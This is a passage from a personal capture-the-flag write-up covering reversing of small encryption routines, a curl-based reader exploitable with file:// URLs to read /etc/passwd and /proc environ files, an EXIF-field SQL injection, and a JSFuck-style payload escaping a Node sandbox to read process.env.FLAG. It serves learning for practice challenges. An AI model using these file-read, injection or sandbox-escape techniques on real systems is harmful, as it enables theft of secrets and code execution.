   `i` is an integer, so `i % 1` is always zero. Bitwise OR'ing any number by 0 just truncates it because it casts it to an i32, and OR'ing anything with false is itself. Since `(Date.now() % 1000) / 1000` is always less than 1, it'll always get truncated to 0. `x |= 0` is also a no-op.

Here's my resulting decryption function, which I turned into a Deno program (I really do not want to `require('fs')` and deal with Node spiciness).

```js
function decrypt (s) {
  const mod = (a, b) => ((a % b) + b) % b
  let encrypted = []
  for (let i = 0; i < s.length; i++) {
    let x = s[i].charCodeAt(0)
    x = ~x + 1
    x = ~x ^ 3
    // TODO
    x = ~x
    x ^= 1365
    if (i > 0) {
      x -= s[i - 1].charCodeAt(0) % 128
    } else {
      x -= 13
    }
    x -= i * 15
    x = mod(x, 128)
    encrypted.push(String.fromCharCode(x))
  }
  return encrypted.join('')
}
decrypt('Ýy+î1')

console.log(decrypt(await Deno.readTextFile(Deno.args[0])))
```

I ran `deno run --allow-all davecrypt.js flag.txt`, which produced the flag. 🎉

Out of curiosity, I also ran it on `q2_report.txt` and `shareholder_meeting_script.txt`. Here's a [Gist with the decoded text files](https://gist.github.com/SheepTester/33ca50477602616e43bd8d441482c43b).

## More inverse encrypting

One of my teammates deobfuscated a .class file from one of the challenges but didn't know how to deal with the bitshifts. I have no idea how she converted it to Java, but it's close enough to JavaScript that I decided to fiddle with it.

> ### Oracle
>
> _REVENGE - Easy_
>
> An oracle is a black box in a Turing machine. You can run it but how do you inspect it?
>
> **Class file**: [Oracle.class](https://cdn.discordapp.com/attachments/920162350366089246/969671404448546847/Oracle.class)
>
> _By k3v1n_

```java
import java.io.Console;
import java.io.PrintStream;

public class Oracle
{
  private static final int FLAG_LENGTH = 42;
  private static final byte[] CHECK = { 48, 6, 122, -86, -73, -59, 78, 84, 105, -119, -36, -118, 70, 17, 101, -85, 55, -38, -91, 32, -18, -107, 53, 99, -74, 67, 89, 120, -41, 122, -100, -70, 34, -111, 21, Byte.MIN_VALUE, 78, 27, 123, -103, 36, 87 };
  private static byte[] numbers;

  private static void firstPass()
  {
    for (int i = 0; i < 42; i++)
    {
      int tmp12_11 = i; byte[] tmp12_8 = numbers;tmp12_8[tmp12_11] = ((byte)(tmp12_8[tmp12_11] ^ 3 * i * i + 5 * i + 101 + i % 2));
    }
  }

  private static void secondPass()
  {
    byte[] arrayOfByte = new byte[42];
    for (int i = 0; i < 42; i++) {
      arrayOfByte[i] = ((byte)(numbers[((i + 42 - 1) % 42)] << 4 | (numbers[i] & 0xFF) >> 4));
    }
    numbers = arrayOfByte;
  }

  private static void thirdPass()
  {
    for (int i = 0; i < 42; i++)
    {
      int tmp12_11 = i; byte[] tmp12_8 = numbers;tmp12_8[tmp12_11] = ((byte)(tmp12_8[tmp12_11] + (7 * i * i + 31 * i + 127 + i % 2)));
    }
  }

  private static void fail()
  {
    System.out.println("That's not the flag. Try again.");
    System.exit(1);
  }

  public static void main(String[] paramArrayOfString)
  {
    Console localConsole = System.console();

    numbers = localConsole.readLine("Enter flag: ", new Object[0]).getBytes();
    if (numbers.length != 42) {
      fail();
    }
    firstPass();
    secondPass();
    thirdPass();

    int i = 0;
    for (int j = 0; j < 42; j++) {
      i |= CHECK[j] ^ numbers[j];
    }
    if (i != 0) {
      fail();
    }
    System.out.println("Good job. You found the flag!");
  }
}
```

I tried simplifying a few variables, and then I realized that the encryption seemed to be independent of other bits.

I wrote the decryption algorithm in JavaScript because I only know JavaScript. I pasted the contents of `CHECK`, which seems to be the encrypted flag, into an `Int8Array`, which was the JS equivalent for Java `byte[]` (since Java `byte`s are signed); I assumed `Byte.MIN_VALUE` is -128.

I worked backwards, starting with the third pass, which seemed fairly simple. It was only dependent on `i`, and it seemed to add an expression dependent only on `i` to `numbers[i]`, so its inverse would just be to decrement by that expression based on `i`.

```js
check[i] -= 7 * i * i + 31 * i + 127 + (i % 2)
```

I decided to invert the first pass next, which was about as ceremonious as the third, because the second pass seemed a bit more spicy. I had to look up the [operator precedence](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Operators/Operator_Precedence#table) for bitwise XOR (`^`), and it seems to bind really loose (looser than `===`), so the expression was equivalent to `numbers[i] = numbers[i] ^ (...)`, i.e. `numbers[i] ^= ...`. The inverse of `^`, as I discussed the [previous challenge](#inverse-encrypting), is still `^`.

```js
// I think ^ binds REALLY loosely
clone[i] ^= 3 * i * i + 5 * i + 101 + (i % 2)
```

The second pass seemed to involve other bytes, not just `numbers[i]`. I saw `... << 4 | ... >> 4`, so it seemed like it was chopping the byte (8 bits) in half (4-bit pieces), swapping their positions using bit shifts, and then merging them back together with the bitwise OR. It wasn't so simple, though; `numbers[((i + 42 - 1) % 42)]` gets the previous byte, wrapping around to the end of the array for the first byte.

It seems that it takes the previous byte, shifts it left by four bits so its last four bits are in the first four bit positions, and then merges it with the current byte shifted to the right by four bits, which moves the first four bits to the last four bits, discarding the other bits. Here's an example on the second byte:

```
ABCD_EFGH IJKL_MNOP ...
      ... EFGH_IJKL ...
```

To invert this, I need to shift the current byte left by four bits, which would discard the foreign bits `EFGH`, and then merge it with the first four bits of the next byte, which has the last four bits of the original byte `MNOP`. I made a clone of the array because the bytes involve other bytes in the array, though looking back I don't think that was necessary.

```js
clone[i] = (check[i] << 4) | (check[(i + 1) % 42] >> 4)
```

I ran it and got a mess, but I did see a resemblance to the `sdctf{` start of the header.


I wasn't really sure what the cause was, so I tried changing the `Int8Array` to a `Uint8Array`; maybe JS bitwise operations are wacky when it comes to negative numbers. It worked.

```js
const check = new Uint8Array([
  48, 6, 122, -86, -73, -59, 78, 84, 105, -119, -36, -118, 70, 17, 101, -85, 55,
  -38, -91, 32, -18, -107, 53, 99, -74, 67, 89, 120, -41, 122, -100, -70, 34,
  -111, 21, -128, 78, 27, 123, -103, 36, 87
])

for (let i = 0; i < 42; i++) {
  check[i] -= 7 * i * i + 31 * i + 127 + (i % 2)
}
const clone = new Uint8Array(check)
for (let i = 0; i < 42; i++) {
  clone[i] = (check[i] << 4) | (check[(i + 1) % 42] >> 4)
}

for (let i = 0; i < 42; i++) {
  // I think ^ binds REALLY loosely
  clone[i] ^= 3 * i * i + 5 * i + 101 + (i % 2)
}

console.log(await new Blob([clone]).text())
```

## Failures 失敗

Alas, I wasn't able to do all the web challenges. I made some progress with them, but then I got stuck. I'm including what I learned from fellow participants in the CTF server here for anyone who happens upon this post from Google.

### curl get environment variable ctf

> #### CURL Up and Read
>
> _WEB - Hard_
>
> This app will show the reader view of any website you enter! No more ads, cookie nags, and paywalls, just content.
>
> **Website**: <https://curl.sdc.tf/>
>
> **Source code (at least the important bits)**: [page.tsx](https://cdn.discordapp.com/attachments/808487148332122144/971161176455135252/message.txt)
>
> _By KNOXDEV_

<!-- prettier-ignore -->
```tsx
import {execFileSync} from 'child_process';

import {GetServerSideProps, GetServerSidePropsContext} from "next";
import Ajv, {JSONSchemaType} from 'ajv';
import addFormats from 'ajv-formats';

import {Readability} from "@mozilla/readability";
import {JSDOM} from 'jsdom';

interface PageConfig {
    url: string;
}

// create the jsonschema validator for the webpage URL
const ajv = new Ajv();
addFormats(ajv);
const validate = ajv.compile({
    type: 'object',
    properties: {
        url: {type: 'string', format: 'uri'}
    },
    required: ['url'],
    additionalProperties: false
} as JSONSchemaType<PageConfig>);


// @ts-ignore
export default function Reader({content, title}) {
    return <div className='flex flex-col max-w-4xl h-full m-auto'>
        <a href="/" className='mt-3 text-blue-500 hover:text-blue-700'>&#8592; return to lookup</a>
        <h1 className='text-5xl my-4'>{title}</h1>
        {/* render the readability view with the strictest possible sandboxing */}
        <iframe sandbox='' allow='' srcDoc={content} className='w-full h-[80vh]'/>
    </div>;
}

export const getServerSideProps: GetServerSideProps = async (context) => {

    // validate the input through a STRICT series of checks
    const pageEncoded = context.params?.page;
    if (!pageEncoded || typeof pageEncoded !== 'string')
        return {notFound: true};
    const pageDecoded = new Buffer(pageEncoded, 'base64').toString('ascii');
    if (!pageDecoded)
        return {notFound: true};
    const pageParsed = JSON.parse(pageDecoded);
    if (!pageParsed)
        return {notFound: true};
    if (!validate(pageParsed))
        return {notFound: true};

    const options = {
        timeout: 2000, // kill if the download takes longer than two seconds
        env: {...process.env, FLAG: 'REDACTED'} // even if CURL is somehow pwned, it won't have access to the flag
    }

    // download the requested webpage
    const output = execFileSync('curl', ['-s', pageParsed.url], options);
    if (!output)
        return {notFound: true};

    // parse the webpage using JSDOM and Readability
    // JSDOM does NOT execute any JS by default
    const doc = new JSDOM(output.toString(), {url: pageParsed.url});
    const reader = new Readability(doc.window.document);
    const content = reader.parse();
    if (!content)
        return {notFound: true};

    // return the reader view content
    return {props: content};
}
```

Based on the network log, I could generate a URL given a URI using

```js
;`https://curl.sdc.tf/read/${btoa(
  JSON.stringify({ url: 'https://google.com/$FILE' })
)}`
```


I wondered if cURL was able to get the value of an environment variable at all, but whenever I tried to Google "curl get environment variable," it was people on StackOverflow trying to plug an environment variable into a cURL command argument in Bash, rather than using cURL directly to get the value of an environment variable.

I Googled "curl from file system" and found a [StackOverflow question mentioning file:// URLs](https://security.stackexchange.com/questions/196842/is-it-possible-to-execute-a-local-file-or-code-from-curl). Curiously but not too surprisingly, while the web page did not accept `file://` URLs, the back-end did accept it as a URI. I tried `file:///etc/passwd` and surprisingly, I got the file contents.


I wondered if it was possible to get environment variables by reading a file, but looking up "linux file with environment variables" or "get environment variables linux from file" gave results about _setting_ environment variables from a file, using, say, `.env` or `profile`.

As it turns out, according to fellow participants after the CTF, you _can_ get environment variables for a process from a file.

- `/proc/<pid>/environ` gets the environment variables for a given process ID
- `/proc/self/status` gets cURL's parent PID

They recommend reading [`man 5 proc`](https://man7.org/linux/man-pages/man5/proc.5.html) for more about `/proc`. I'll have to keep this in mind next time. This is big brain, and it's a shame that Google didn't show me this. Hopefully this write-up might show up in the search results for other people (or myself 😳) next time.

### ctf upload file

> #### Gullible by Dovesign
>
> _WEB - Medium_
>
> I really like birds, so I made a website where people can upload their favorite bird pictures. It’s protected by state-of-the-art anti-bird prevention technology, so don’t bother trying to upload anything that isn’t a bird. Have fun birding!
>
> **Website**: <https://dove.sdc.tf/>
>
> _By Infernis_

This website was just an upload button that accepted an image. It either responded with

- `We cannot determine whether this image is a bird or not. Sorry!` for most images.
- `The image overwrite me.jpg does not seem to be a bird.` (where `overwrite me.jpg` is the file name) if the image has an EXIF `Description` tag that isn't a hardcoded species name in their database.
- `Thank you for uploading a bird to the <em>Laridae</em> family! Your support helps us grow!` (where `Laridae` is the family name of the bird species uploaded) if the description was a valid species name.
- `This file is not an image! We only accept bird images!` if the file is not parsable as an image.
- `Malformed request` if no file was selected.

Uploading the bird images already on the website was acceptable, but most of the images I had were indeterminate. I found out about the EXIF data by looking at the sample bird photos in a [hex viewer](https://hexed.it/). It mentioned [ExifTool](https://exiftool.org/), which I downloaded. On Windows, it's just an .exe that I can drag and drop an image on in the File Explorer, and I can put command line arguments in parentheses in the executable name to change how it runs. I also ran it on the command line; here's the command for setting the description of the image to a seagull (which I thought was important because of the name of the challenge, but apparently not).

```sh
$ ./exiftool.exe overwrite\ me.jpg -Description="Larus smithsonianus"
    1 image files updated
```

Beyond that, I wasn't really sure what to do. It was hard to tell what it was expecting in the Description since most of the time if it was not a specific bird species they wanted (not all species names worked), it would say it's not a bird, and there was no indication that it did anything with the photo, i.e. storing it; I assumed that it was just kept in memory for a bit while looking for the description tag, then tossing it away as it's just for demo purposes for the CTF.

As it turns out, according to others after the CTF ended, the website uses an SQL database (I'm not sure how we were supposed to figure that out; maybe it's just standard for CTF challenges that they use an SQL database), and you can do [SQL injection](https://xkcd.com/327/) by setting the description to something sus as long as it started with a single quote. You'd still have to do some more SQL shenanigans to get a list of the databases available, then get the password from there. The result of the SQL operation is then output in between the `<em>` tags.

This challenge is considered "medium" difficulty, but compared to the [hard difficulty cURL challenge](#curl-get-environment-variable-ctf), it has fewer solves. It happens. Still, it's good to note for future CTFs to consider SQL injections. Alas, I don't really know much SQL, so I'm not sure if I would've been able to do this even if I knew.

## Appendix: How I created my payload for SymCalc.js

I'm leaving this out of my write-up for [SymCalc.js](#ctf-node-calculator-escape-vm-codegeneration-false) because there are approaches that don't require rederiving JSFuck, but maybe the art of JSFuck might interest you, so I'll mention it here.

JSFuck only uses the following six characters: `!+[]()`. In SymCalc.js, all but the bang (`!`) are permitted, but because the bang is often used in traditional JSFuck, I can't just directly use their generator for SymCalc.js.

The principles of JSFuck are knowing what each character is used for in JavaScript syntax and understanding JavaScript type casting. `+` is used for addition, concatenation, and casting to a number; `[]` are used for creating arrays and getting properties from objects; and `()` is used for grouping expressions and calling functions.

From just those characters, I can create strings from some JavaScript keywords that I can get individual letters from. This is necessary because quotes aren't allowed. For example, `[][[]]` (`[][0]` also works in SymCalc.js) produces **`undefined`**. The empty array `[]` has no such property `''` (an empty string, which is what an empty array becomes when [casted to a string](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Array/toString)) or `0`, so it returns `undefined`.

Even though exclamation marks (`!`) aren't allowed in SymCalc.js, equal signs (`=`) and digits are, so I can also get **`true`** from `0 === 0` and **`false`** from `0 === 1`.

To cast these into strings, add them with an empty array:

```js
console.log((0 === 0) + []) // 'true'
```

This is because an empty array is not a number, so JavaScript does string concatenation instead of addition. It casts both operands to a string, and `undefined`, `false`, etc. become `'undefined'`, `'false'`, etc., while the empty array becomes an empty string.

Then, to get individual letters from these strings, you can just index them with numbers: `([][[]] + [])[0]` becomes `(undefined + [])[0]` then `('undefined' + '')[0]`, `'undefined'[0]`, which gets the first letter, `'u'`. SymCalc.js also allows using letters and equal signs, so for convenience and readability, I stored these letters into variables of the same name. Here are all the letters I can get so far:

```js
undef = [][0] + [] // 'undefined'
fals = (0 === 1) + [] // 'false'
tru = (0 === 0) + [] // 'true'

a = fals[1]
d = undef[2]
e = undef[3] // or fals[4] or tru[3]
f = fals[0] // or undef[4]
i = undef[5]
l = fals[2]
n = undef[1]
s = fals[3]
r = tru[1]
t = tru[0]
u = undef[0] // or tru[2]

console.log(a + d + e + f + i + l + n + s + r + t + u) // 'adefilnsrtu'
```

As a reminder, in the [SymCalc.js challenge](#ctf-node-calculator-escape-vm-codegeneration-false), I want to eventually get to

```js
this.constructor.constructor('return process.env.FLAG')()
```

`this` is an empty object, and its constructor is [`Object`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Object), which is the superclass for all JavaScript objects. You can get the constructor function of almost any JavaScript object through its [`constructor` property](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Object/constructor). `Object` is a function, so its constructor is [`Function`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Function). [Calling `Function` with a string](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Function/Function) "casts" it to a function, which lets me run a string as JavaScript code. Finally, the final `()` calls the created function to get the challenge flag, which is stored in `process.env.FLAG`, as hinted by the given code.

Dots aren't allowed by SymCalc.js, so I'll use bracket notation instead:

```js
this['constructor']['constructor']('return process.env.FLAG')()
```

Then, I can concatenate the letters I obtained as shown above to create these strings.

However, the alphabet I have so far is incomplete. I still need `'c'` and `'o'` for the constructor and the characters in `' .FLAG'` for the string I pass to `Function`.

I'll focus on `'c'` and `'o'` first. JSFuck obtains these by casting a function to a string. When you [cast a function to a string](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Function/toString), such as `alert + ''`, it returns the source code of the function, or `[native code]` if the function is built-in. Examples:

```js
console.log(alert + '') // 'function alert() { [native code] }'

const func = () => 3
console.log(func + '') // '() => 3'
```

That `function` keyword (and "native code") has the C and O that I need, so I just need to get access to some function.

JSFuck usually goes about this by using an array method. It initially used [`Array.prototype.fill`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Array/fill), but now uses the new [`Array.prototype.flat`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Array/flat). So, to get a string that starts with `function`, I need to do `[]['fill'] + []` or `[]['flat'] + []`. JSFuck uses these method names because they're short and only use letters that one can get so far.

```js
flat = f + l + a + t // 'flat'
func = [][flat] + [] // 'function flat() { [native code] }'

c = func[3]
o = func[6]
```

Finally, I can get `'constructor'`. I initially stored it in a variable named `constructor`, but because of the way I declared it, it gets stored in the context object, so `this.constructor` was `'constructor'` not `Object`. To avoid this, I named the variable `constructo`.

```js
constructo = c + o + n + s + t + r + u + c + t + o + r // 'constructor'
```

What about the other characters? While I can obtain the space character from the function source string `func`, that approach won't work for characters like the dot (`.`). I would have to use [`String.fromCharCode`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/fromCharCode) or [`String.fromCodePoint`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/fromCodePoint), which can produce any character given its Unicode code value. [`String`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String) is the constructor of any string (`''.constructor`, or `([] + [])['constructor']`), but to get its `fromCharCode` method, I need an H, M, and capital C.

The [way JSFuck approaches `C`](https://github.com/aemkei/jsfuck/blob/1f02651e98da1c13aef76d609755a2568a1aa6b4/jsfuck.js#L54) is pretty genius. It uses the built-in function [`escape`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/escape) to [URL-encode a `<` character to `%3C`](https://en.wikipedia.org/wiki/Percent-encoding#Character_data), and to get a `<` character, it uses one of the [string methods that insert HTML tags around the string](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String#html_wrapper_methods) (for example, `'wow'.big()` returns `<big>wow</big>`). JSFuck uses [`.italics()`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/italics), so I used it as well. To get the `escape` function, JSFuck uses `Function` to create a function that returns `escape`, but that's not necessary for SymCalc.js because it allows letters.

```js
C = escape(([] + [])[i + t + a + l + i + c + s]())[2] // 'C' from '%3Ci%3E%3C/i%3E', an escaped '<i></i>'
```

To get `m`, JSFuck uses [`Number`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Number) (the constructor for numbers):

```js
m = ((0)[constructo] + [])[11] // 'm', from 'function Number() { [native code] }'
```

Then for `h` and a lot of the other letters, JSFuck uses [`Number.prototype.toString`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Number/toString) to convert a number into a base that uses `h`, kind of like how hexadecimal uses A--F for its extra six digits. 17 in base 10 is H in bases larger than base 17, so `(17).toString(36)` produces `'h'`. To get `'toString'`, JSFuck concatenates `t` and `o` with [`String.name`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Function/name), the name of the `String` function.

```js
Str = ([] + [])[constructo] // String, the constructor for strings

h = (17)[t + o + Str[n + a + m + e]](36)
```

Now, I can get `String.fromCharCode`:

```js
fromCharCode = Str[f + r + o + m + C + h + a + r + C + o + d + e]
```

I got lazy, so I just used `fromCharCode` for the rest of the characters. I wrote code to generate code that returns code for running code:

```js
console.log(
  [...'return process.env.FLAG']
    .map(a => `fromCharCode(${a.codePointAt()})`)
    .join(' + ')
)
```

The resulting expression:

<!-- prettier-ignore -->
```js
fromCharCode(114) + fromCharCode(101) + fromCharCode(116) + fromCharCode(117) + fromCharCode(114) + fromCharCode(110) + fromCharCode(32) + fromCharCode(112) + fromCharCode(114) + fromCharCode(111) + fromCharCode(99) + fromCharCode(101) + fromCharCode(115) + fromCharCode(115) + fromCharCode(46) + fromCharCode(101) + fromCharCode(110) + fromCharCode(118) + fromCharCode(46) + fromCharCode(70) + fromCharCode(76) + fromCharCode(65) + fromCharCode(71)
```

Finally, I can write `this['constructor']['constructor']('return process.env.FLAG')()` without quotes or dots, which you can find in the main [SymCalc.js write-up](#ctf-node-calculator-escape-vm-codegeneration-false).
